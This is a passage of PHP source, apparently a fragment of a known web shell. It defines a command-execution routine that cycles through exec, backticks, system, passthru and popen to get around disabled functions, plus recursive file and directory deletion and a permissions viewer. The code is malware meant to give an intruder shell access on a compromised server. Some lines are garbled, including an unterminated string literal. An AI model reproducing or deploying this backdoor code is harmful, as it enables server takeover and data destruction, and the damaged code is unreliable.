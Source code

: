   {
   if (!is_dir($d.$o)) {unlink($d.$o);}
   else {fs_rmdir($d.$o.DIRECTORY_SEPARATOR); rmdir($d.$o);}
  }
 }
 closedir($h);
 rmdir($d);
 return !is_dir($d);
}
}
if (!function_exists("fs_rmobj"))
{
function fs_rmobj($o)
{
 $o = str_replace("\",DIRECTORY_SEPARATOR,$o);
 if (is_dir($o))
 {
  if (substr($o,-1) != DIRECTORY_SEPARATOR) {$o .= DIRECTORY_SEPARATOR;}
  return fs_rmdir($o);
 }
 elseif (is_file($o)) {return unlink($o);}
 else {return FALSE;}
}
}
if (!function_exists("myshellexec"))
{
function myshellexec($cmd)
{
 global $disablefunc;
 $result = "";
 if (!empty($cmd))
 {
  if (is_callable("exec") and !in_array("exec",$disablefunc)) {exec($cmd,$result); $result = join("
",$result);}
  elseif (($result = `$cmd`) !== FALSE) {}
  elseif (is_callable("system") and !in_array("system",$disablefunc)) {$v = @ob_get_contents(); @ob_clean(); system($cmd); $result = @ob_get_contents(); @ob_clean(); echo $v;}
  elseif (is_callable("passthru") and !in_array("passthru",$disablefunc)) {$v = @ob_get_contents(); @ob_clean(); passthru($cmd); $result = @ob_get_contents(); @ob_clean(); echo $v;}
  elseif (is_resource($fp = popen($cmd,"r")))
  {
   $result = "";
   while(!feof($fp)) {$result .= fread($fp,1024);}
   pclose($fp);
  }
 }
 return $result;
}
}
if (!function_exists("tabsort")) {function tabsort($a,$b) {global $v; return strnatcmp($a[$v], $b[$v]);}}
if (!function_exists("view_perms"))
{
function view_perms($mode)
{
 if (($mode & 0xC000) === 0xC000) {$type = "s";}
 elseif (($mode & 0x4000) === 0x4000) {$type = "d";}
 elseif (($mode & 0xA000) === 0xA000) {$type = "l";}
 elseif (($mode & 0x8000) === 0x8000) {$type = "-";}
 elseif (($mode & 0x6000) === 0x6000) {$type = "b";}
 elseif (($mode & 0x2000) === 0x2000) {$type = "c";}
 elseif (($mode & 0x1000) === 0x1000) {$type = "p";}
 else {$type = "?";}
